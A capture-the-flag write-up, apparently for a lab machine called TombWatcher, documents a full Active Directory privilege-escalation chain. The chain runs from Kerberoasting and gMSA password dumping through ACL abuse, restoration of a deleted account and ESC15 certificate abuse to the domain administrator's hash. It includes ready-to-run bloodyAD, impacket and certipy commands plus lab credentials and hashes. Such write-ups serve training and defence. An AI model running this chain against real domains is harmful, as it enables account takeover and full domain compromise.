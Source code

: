 ## Nutshell
- Some ACL stuff.
- restore deleted user that can request a vulnerable `ESC15` certificate. 


---

IP: 10.10.11.72
Start with credentials `henry` / `H3nry_987TGV!`

Start with the nmap:
```
PORT     STATE SERVICE       REASON          VERSION                                                                                                                                               
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0              
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-09-24 11:07:01Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)


```

Using Bloodhound we can see our attack path:
![[Z Assets/Images/Pasted image 20250926012245.jpeg]]
we used this command to get the hash of `alfred`:
```
targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

I got the alfred hash, and cracked it. The password is:
`alfred`:`basketball`

---

We will at the outbound object control of `alfred`:
![[Z Assets/Images/Pasted image 20250926012634.jpeg]]
```
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember 'infrastructure' 'alfred'
```

This group has `ReadGMSAPassword` on `Ansible_DEV` machine, So we can read its NTLM hash:
![[Z Assets/Images/Pasted image 20250926014916.jpeg]]
```
gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::4f46405647993c7d4e1dc1c25dd6ecf4
ansible_dev$:aes256-cts-hmac-sha1-96:2712809c101bf9062a0fa145fa4db3002a632c2533e5a172e9ffee4343f89deb
ansible_dev$:aes128-cts-hmac-sha1-96:d7bda16ace0502b6199459137ff3c52d

```

This machine has `ForceChangePassword` on `sam` user:
![[Z Assets/Images/Pasted image 20250926021337.jpeg]]
```
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'ANSIBLE_DEV$' -p ':4f46405647993c7d4e1dc1c25dd6ecf4' set password "sam" 'basketball'
```

Now, `sam` has `WriteOwner` on `john`:
![[Z Assets/Images/Pasted image 20250926022429.jpeg]]
First, we change from `WriteOwner` to `GenericAll`, then start to exploit as we want: 
```
owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'sam' -p 'basketball' set password "john" 'basketball'
```

Now, john is joind to `Remote management group`:

![[Z Assets/Images/Pasted image 20250926024847.jpeg]]
And he has `GenericAll` on `ADCS`.

![[Z Assets/Images/Pasted image 20250926025009.jpeg]]

we can do evil-winrm to get the `flag.txt`

---

After doing `win-rm`, we found  deleted users with name `cert_admin` but it is within 3 objects.
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects

Deleted           : True             
DistinguishedName : CN=Deleted Objects,DC=tombwatcher,DC=htb    
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 34509cb3-2b23-417b-8b98-13f0bd953319 

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb     
Name              : cert_admin                                                                              
                    DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectClass       : user
ObjectGUID        : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3  

Deleted           : True     
DistinguishedName : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb     
Name              : cert_admin
                    DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358  

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
ObjectClass       : user
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

Resotre objects:
```
Restore-ADObject -Identity "CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb"
```

Looking at bloodhound, we have `GenericAll` on `cert_admin` user, And this user can enroll to certificate that is vulnerable.
![[Z Assets/Images/Pasted image 20250926151132.jpeg]]

![[Z Assets/Images/Pasted image 20250926151222.jpeg]]
```
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.

```

We will exploit `ESC15` now:
```
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'

certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'TOMBWATCHER.HTB\Administrator'

certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'
```

Then we got TGT ticket and the hash of administrator:
```
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:2f071c9718cb504323fc71e083cab2b8
```
GG


---

```steps
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember 'infrastructure' 'alfred'
gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'

bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'ANSIBLE_DEV$' -p ':4f46405647993c7d4e1dc1c25dd6ecf4' set password "sam" 'basketball'
owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'sam' -p 'basketball' set password "john" 'basketball'

Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"

bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'john' -p 'basketball' set password "cert_admin" 'basketball'

certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'

certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'TOMBWATCHER.HTB\Administrator'

certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'


```



```collecting

bloodhound-ce-python -d tombwatcher.htb  -dc dc01.tombwatcher.htb -u 'john@tombwatcher.htb' -p 'basketball' -ns 10.10.11.72 --collection All --zip
rusthound-ce -u 'john' -p 'basketball' -d tombwatcher.htb -f dc01.tombwatcher.htb

```

pre2k